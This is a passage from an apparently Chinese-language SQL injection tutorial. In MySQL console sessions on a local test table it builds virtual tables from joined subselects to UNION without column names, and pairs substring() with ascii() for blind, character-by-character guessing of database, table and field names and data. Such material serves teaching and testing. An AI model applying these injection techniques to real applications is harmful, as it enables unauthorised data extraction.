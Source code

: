 并不会报错，我们需要的查询结果就是第5，6行第2字段的2和3。

下面是对虚拟表的简单测试：



```
mysql&gt; select * from ((select 1)a join (select 2)b) limit 1 offset 1;
Empty set (0.00 sec)
mysql&gt; select * from ((select 1)a join (select 2)b);
+---+---+
| 1 | 2 |
+---+---+
| 1 | 2 |
+---+---+
1 row in set (0.00 sec)
```

可以看到我们创建的确实是字段名为1和2的虚拟表，此表的结构为一行两列。

用虚拟表去union其他表的数据：



```
mysql&gt; select * from ((select 233)a,(select 2333)b,(select 23333)c,(select 233333)d,(select 2333333)e) union select * from learning_test;
+------+------+-------+--------+-------------+
| 233  | 2333 | 23333 | 233333 | 2333333     |
+------+------+-------+--------+-------------+
|  233 | 2333 | 23333 | 233333 | 2333333     |
|    1 | a    | s     | s      | aaaaaaaa    |
|    2 | b    | s     | s      | ddd         |
|    3 | c    | s     | s      | wwwwwwww    |
|    4 | d    | s     | s      | fffffff     |
+------+------+-------+--------+-------------+
5 rows in set (0.00 sec)
```

表明我们之前的分析是正确的，方法可行。

<br>

**0x05   substring()和ascii()的联合使用**

****

用于猜解数据库名、表名、字段名和查询结果等

具体使用：



```
mysql&gt; select ascii((select substring((select bin_column from learning_test where num=2),1,1)))&gt;10;
+--------------------------------------------------------------------------------------+
| ascii((select substring((select bin_column from learning_test where num=2),1,1)))&gt;10 |
+--------------------------------------------------------------------------------------+
|                                                                                    1 |
+--------------------------------------------------------------------------------------+
1 row in set (0.02 sec)
```
